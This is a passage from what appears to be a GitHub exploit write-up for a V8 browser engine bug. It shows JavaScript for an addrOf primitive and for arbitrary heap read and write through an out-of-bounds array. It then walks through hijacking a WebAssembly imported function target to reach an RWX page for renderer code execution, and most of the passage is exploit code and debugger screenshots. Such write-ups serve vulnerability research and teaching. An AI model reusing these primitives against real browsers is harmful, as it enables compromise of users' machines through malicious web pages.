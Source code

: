 If both arrays point at the same address, we can store an object in obj_arr[0], in memory obj_arr[0] will contain the address of the object. Then we can get it’s address by reading fl_arr[0], because fl_arr[0] is pointing at obj_arr[0], accesing fl_arr[0] returns the literal value in memory of obj_arr[0]

![image](https://github.com/user-attachments/assets/9457df1b-6887-461e-a3d8-d436176d5068)


Using the same method we can read  and write memory by assigning the address to fl_arr[0]

```javascript
function heap_read(addr) {

    oob_arr[5] = itof((0x8n << 32n) | (addr-0x8n));
    res = ftoi(fl_arr[0]);
    return res;

}
function heap_write(addr, val) {

    oob_arr[5] = itof((0x8n << 32n) | (addr-0x8n));
    fl_arr[0] = itof(val);
}
```

## Code execution in renderer process
First, we obtain a way to hijack the target address of a function, this allows us to redirect code execution to an arbitrary address. It can be obtained by getting the Imported_function_target address of a WebAssembly module.
![image](https://github.com/user-attachments/assets/447944c9-4d32-4d47-9b5d-3d7908867bb3)

Inspect the memory address of the WebAssembly module, imported_function_target  is located at offset 0x30 (this differs depending on v8 version)

![image](https://github.com/user-attachments/assets/50058b01-f94a-457e-8afa-36b5da6b2bff)

imported_function_target  address contains the address of the RWX page
![image](https://github.com/user-attachments/assets/83599be4-505b-4ffc-81f9-682613d7655d)

Confirm RX permissions

![image](https://github.com/user-attachments/assets/01349ad2-0c8d-43eb-8ff3-fb08a7f3ad33)


Define a WASM with imported function, obtain imported_function_target  and replace it with arbitrary value
```javascript

const importObject = {
 imports: {imported_func : Math.sin},
};

var code = new Uint8Array([0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x0a, 0x02, 0x60, 0x01, 0x7f, 0x01, 0x7f, 0x60, 0x00, 0x01, 0x7f, 0x02, 0x1b, 0x02, 0x03, 0x65, 0x6e, 0x76, 0x08, 0x6a, 0x73, 0x74, 0x69, 0x6d, 0x65, 0x73, 0x33, 0x00, 0x00, 0x02, 0x6a, 0x73, 0x03, 0x74, 0x62, 0x6c, 0x01, 0x70, 0x00, 0x02, 0x03, 0x05, 0x04, 0x01, 0x01, 0x00, 0x00, 0x07, 0x10, 0x02, 0x06, 0x74, 0x69, 0x6d, 0x65, 0x73, 0x32, 0x00, 0x03, 0x03, 0x70, 0x77, 0x6e, 0x00, 0x04, 0x09, 0x08, 0x01, 0x00, 0x41]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module, importObject);
var shellcode = instance.exports.func1;

var instance_addr = addrOf(instance);
var targets_ptr = (heap_read(instance_addr + 0x20n) & 0xffffffffn);
var target_rwx = targets_ptr + 0x8n;
```